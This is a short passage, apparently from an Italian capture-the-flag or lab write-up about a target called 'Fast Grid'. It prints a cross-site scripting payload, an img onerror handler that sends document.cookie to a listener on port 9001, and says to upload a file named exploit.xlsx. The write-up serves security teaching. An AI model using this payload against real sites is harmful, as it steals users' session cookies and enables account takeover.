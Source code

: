 ![Fast Grid](./img/fastgrid.png)

```js

<img src=1 onerror="fetch('http://10.10.16.x:9001/'+document.cookie)">

```

Si esegue un server locale in ascolto sulla porta 9001 e si carica il file **exploit.xlsx**.

![Upload XLSX](./img/upload-xlsx.png)
